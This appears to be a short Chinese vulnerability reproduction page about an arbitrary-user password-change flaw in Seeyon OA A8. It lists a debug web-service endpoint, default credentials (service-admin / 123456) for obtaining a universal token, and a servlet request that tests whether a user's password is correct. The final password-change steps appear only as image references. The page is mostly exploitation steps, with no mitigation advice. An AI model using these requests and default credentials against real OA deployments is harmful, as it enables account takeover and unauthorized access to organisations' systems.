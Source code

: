 ```yaml
---
title: 致远OA A8 任意用户密码修改漏洞
id: zhfly3353
---
```


# 致远OA A8 任意用户密码修改漏洞

## 一、漏洞简介

## 二、漏洞影响

致远OA A8

## 三、复现过程

```
http://www.0-sec.org/seeyon/services/authorityService?wsdl 
```

通过调试接口的默认用户 userName:service-admin password:123456 获取万能Token之后可以修改任意用户密码。

![image](../img/3c4cb507dc2d209da3b457e3bf29e721.png)

访问

```
http://www.0-sec.org/seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=zw&P_2_String=wooyun 
```

返回false 说明zw密码不正确

![image](../img/618a9932312f5e6da14e430733ebfb59.png)

修改密码

![image](../img/0516b27f27178254367fe70199a03582.png)

![image](../img/c0da305643844565a5022f5f8286c5ee.png)